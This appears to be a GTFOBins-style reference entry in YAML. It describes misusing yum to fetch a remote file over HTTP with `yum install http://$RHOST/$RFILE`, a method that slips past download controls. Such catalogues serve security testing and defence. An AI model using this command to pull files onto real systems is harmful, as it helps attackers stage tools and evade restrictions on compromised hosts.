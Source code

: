 ```yaml
---
functions:
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
      code: |
        yum install http://$RHOST/$RFILE
---
```

